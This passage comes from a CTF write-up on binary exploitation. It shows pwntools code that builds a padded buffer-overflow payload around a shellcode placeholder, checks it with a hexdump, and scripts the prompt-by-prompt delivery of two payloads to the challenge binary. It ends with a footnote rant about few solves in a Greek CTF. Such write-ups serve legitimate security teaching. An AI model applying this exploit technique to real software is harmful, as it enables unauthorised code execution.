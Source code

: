 ```python
*
00000190
```

For payload1 we can use something similar to the below:

```python
shellcode = '' # shellcode placeholder

payload1 = fit({
    0: shellcode
    }, filler=cyclic(92), length=92)
```

And in `ipython` we can verify:

```python
In [22]: shellcode = '' # shellcode placeholder

In [23]: payload1 = fit({
    ...: 0: shellcode
    ...: }, filler=cyclic(92), length=92)
<ipython-input-23-ea8b22b47255>:1: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  payload1 = fit({

In [24]: print(hexdump(payload1))
00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
00000020  69 61 61 61  6a 61 61 61  6b 61 61 61  6c 61 61 61  │iaaa│jaaa│kaaa│laaa│
00000030  6d 61 61 61  6e 61 61 61  6f 61 61 61  70 61 61 61  │maaa│naaa│oaaa│paaa│
00000040  71 61 61 61  72 61 61 61  73 61 61 61  74 61 61 61  │qaaa│raaa│saaa│taaa│
00000050  75 61 61 61  76 61 61 61  77 61 61 61               │uaaa│vaaa│waaa│
0000005c

```

Finally, for handling input and output we can add before `io.interactive()` something like the below to handle interaction with the binary:

```python
io.recvuntil(b'> ')    # receive everything and wait for prompt
io.sendline(payload1)  # send payload1 at the `Is everything clear?                             (y/n)` question
io.recvuntil(b'> ')    # continue receiving and sending data until                              the 5th question 
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')
io.sendline(b'y')
io.recvuntil(b'> ')    # `Well, maybe a last one and then we finish!`                           prompt
io.send(payload2)      # send payload2

```

[^Rant]: And ok, yeah, it was not a big event, nor was the CTF any larger. But only 3 solves? What's the play here? Everybody else is killing it out there in CTFs and IRL, and we are doing what exactly? Yes, there are teams from GR that are having success in global events, of course. But how are these teams seeded if in entry level events we are failing at the obvious? How is this not a problem, both for the scene and the security industry altogether?